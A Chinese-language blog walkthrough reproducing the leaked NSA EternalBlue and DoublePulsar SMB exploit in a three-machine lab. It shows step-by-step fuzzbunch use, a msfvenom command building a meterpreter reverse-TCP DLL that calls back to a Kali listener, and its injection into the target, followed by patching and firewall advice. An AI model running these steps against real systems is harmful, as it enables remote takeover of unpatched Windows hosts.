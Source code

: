 ```yaml
---
title: 复现 NSA Enternalblue SMB 漏洞
date: 2017-04-27 17:18:08
tags: [Enternalblue,Doublepulsar,SMB,Metasploit]
categories: Vulnerability Analysis
keywords: [Enternalblue,Doublepulsar,SMB,Metasploit]
---
```


2017年4月14日，Shadow Brokers 再次公开了大量从 NSA 的方程式组织（Equation Group）处窃取的攻击工具，这些工具主要针对 Windows 系统的漏洞，其中还有几个 0 day。工具中的 fuzzbunch 是一个类似于 metasploit 的漏洞利用框架，fb.py 是 fuzzbunch 的入口文件，通过该文件可以调用各攻击模块。

泄露的工具可在 Github 下载：<https://github.com/misterch0c/shadowbroker>

# 0x01 影响范围
下图中列举了工具中相关模块所影响的服务和系统。
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020689_92526918-file_1493343199647_16966.jpg)

# 0x02 漏洞测试
下面使用工具中的 fuzzbunch 框架、Eternalblue 和 Doublepulsar 测试 Windows 下的 SMB 漏洞。首先通过 Eternalblue 利用 MS17-010 漏洞攻击 Windows 系统；然后在 Kali Linux 中用 Metasploit 生成一个能建立反向连接的 DLL，并在 Kali 中监听相应端口；最后使用 Doublepulsar 远程注入恶意 DLL 到目标系统，注入成功后 Kali 将与目标系统建立连接。

## 1. 测试环境
|     PC     |       IP        |  用途  |        备注        |
|:---------- |:--------------- | ------ | ------------------ |
| Win 7 x64  | 192.168.109.1   | 攻击机 | 需安装 [python2.6](https://www.python.org/ftp/python/2.6.6/python-2.6.6.msi)  和 [pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/pywin32-221.win32-py2.6.exe/download) |
| Win 7 x86  | 192.168.109.132 | 靶机   |开启 SMB 服务（445端口）   |
| Kali Linux | 192.168.109.128 | 控制端   | 生成payload 并控制回连会话|
首先需要把工具中的 windows 拷贝到攻击机 Win 7 x64中，然后在 windows 目录下新建一个 listeningposts 文件夹。

## 2. 测试流程
### 1）运行 fuzzbunch 框架
在 cmd 中进入 windows 目录，运行 `python fb.py`。输入目标系统 IP（Win 7 x86）和攻击机 IP（Win 7 x64），输入“no” 不重定向，接着输入项目名新建一个项目。     
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020691_95094523-file_1493344655277_8614.png)      

### 2）调用 Eternalblue 攻击系统
运行` use Eternalblue`，然后大多数步骤只需按回车使用默认参数即可。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020676_54184530-file_1493344922256_adf5.png)   
下面需要选择 `1）FB` 模式。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020679_61786740-file_1493345114952_f2f3.png)   
接着继续回车，直到成功运行攻击模块。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020681_73280707-file_1493345362094_157db.png)    

### 3）Metasploit 生成恶意 DLL
在 Kali Linux 下使用 Metasploit 生成恶意 DLL,它将在目标系统中建立一个反向连接。这里生成的 DLL必须要与目标系统版本一致，下面生成 32 bit 的 DLL。
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.109.128 LPORT=6666 -f dll > test.dll
```
之后需要将生成的 test.dll 拷贝到攻击机的 D:\\下。

### 4）开启 msf 监听
在 Kali Linux 下，运行 msf，监听 6666 端口。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020683_80220500-file_1493346556508_101d9.png)    

### 5）调用 Doublepulsar 注入 DLL
回到攻击机中，执行 `use Doublepulsar` ，回车使用默认参数直到选择 Function 为2 注入 DLL，然后指定 DLL 的路径。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020674_11038492-file_1493347262266_5c5.png)   
注入成功后将返回如下信息。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020680_68357990-file_1493347997057_2e1f.png)   
但是这里也会出现个问题，多次注入之后目标系统会出错重启。     
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020677_56721083-file_1493348716416_6f00.png)

### 6）建立连接
DLL 注入到目标系统之后，Kali Linux 将与目标系统建立连接。    
![](https://raw.githubusercontent.com/0x4C43/BlogImages/master/1586020685_82624178-file_1493348105266_34db.png)

# 0x03 防御措施
1. 尽快升级系统补丁     
2. 开启防火墙，并限制 445 端口     
通过以下命令添加防火墙规则：
```
netsh advfirewall firewall add rule name="445" protocol=TCP dir=in localport=445 action=block
```

----
References:   
[1] [NSA工具包之0day Eternalblue 复现笔记](http://blog.injectxx.com/2017/04/18/%E5%A4%8D%E7%8E%B0%E7%AC%94%E8%AE%B0%E3%80%82/)   
[2] [HOW TO EXPLOIT ETERNALBLUE & DOUBLEPULSAR TO GET AN
EMPIRE/METERPRETER SESSION ON WINDOWS 7/2008](https://www.exploit-db.com/docs/41896.pdf)   
[3] [NSA Fuzzbunch分析与利用案例](https://www.vulbox.com/knowledge/detail/?id=6)
